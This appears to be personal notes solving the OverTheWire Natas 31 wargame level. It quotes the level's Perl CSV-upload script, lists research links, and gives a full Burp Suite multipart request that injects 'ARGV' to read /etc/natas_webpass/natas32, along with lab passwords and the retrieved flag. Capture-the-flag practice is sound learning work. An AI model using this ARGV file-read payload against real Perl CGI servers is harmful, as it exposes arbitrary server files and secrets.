 import requests
from requests.auth import HTTPBasicAuth

url = "http://natas31.natas.labs.overthewire.org/"
auth = HTTPBasicAuth("natas31", "m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y")

$ENV{'TMPDIR'}="/var/www/natas/natas31/tmp/";
...

my $cgi = CGI->new;
if ($cgi->upload('file')) {
    my $file = $cgi->param('file');
    print '<table class="sortable table table-hover table-striped">';
    $i=0;
    while (<$file>) {
        my @elements=split /,/, $_;

        if($i==0){ # header
            print "<tr>";
            foreach(@elements){
                print "<th>".$cgi->escapeHTML($_)."</th>";   
            }
            print "</tr>";
        }
        else{ # table content
            print "<tr>";
            foreach(@elements){
                print "<td>".$cgi->escapeHTML($_)."</td>";   
            }
            print "</tr>";
        }
        $i+=1;
    }
    print '</table>';
}

https://www.invicti.com/web-vulnerability-scanner/vulnerabilities/code-execution-via-file-upload/
https://owasp.org/www-chapter-pune/meetups/2023/Jan/File-upload-Vulnerability-Praveen-Sutar.pptx.pdf
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
https://codeql.github.com/codeql-query-help/cpp/cpp-cgi-xss/ <- seems like escapeHTML is the good practice

noticing response headers:
HTTP/1.1 200 OK
Date: Sat, 30 Aug 2025 02:44:50 GMT
Server: Apache/2.4.58 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 815
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=iso-8859-1

https://zaynar.co.uk/posts/charset-encoding-xss/

but iso-8859-1 seems to be on par with UTF-8...

https://www.blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf?ref=learnhacking.io

done with burpsuite:

POST /index.pl?/etc/natas_webpass/natas32 HTTP/1.1
Host: natas31.natas.labs.overthewire.org
Content-Length: 383
Cache-Control: max-age=0
Authorization: Basic bmF0YXMzMTptN2JmakFIcEptU1lnUVdXZXFSRTJxVkJ1TWlSTnEweQ==
Accept-Language: en-US,en;q=0.9
Origin: http://natas31.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6hv5dpD7Q9ABkWoL
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://natas31.natas.labs.overthewire.org/
Accept-Encoding: gzip, deflate, br
Cookie: _ga=GA1.1.1947089201.1755739126; _ga_RD0K2239G0=GS2.1.s1756528588$o2$g1$t1756528596$j52$l0$h0
Connection: keep-alive

------WebKitFormBoundary6hv5dpD7Q9ABkWoL
Content-Disposition: form-data; name="file"

ARGV
------WebKitFormBoundary6hv5dpD7Q9ABkWoL
Content-Disposition: form-data; name="file"; filename="just-a.csv"
Content-Type: text/csv

a;b
c;d
------WebKitFormBoundary6hv5dpD7Q9ABkWoL
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundary6hv5dpD7Q9ABkWoL--

NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B
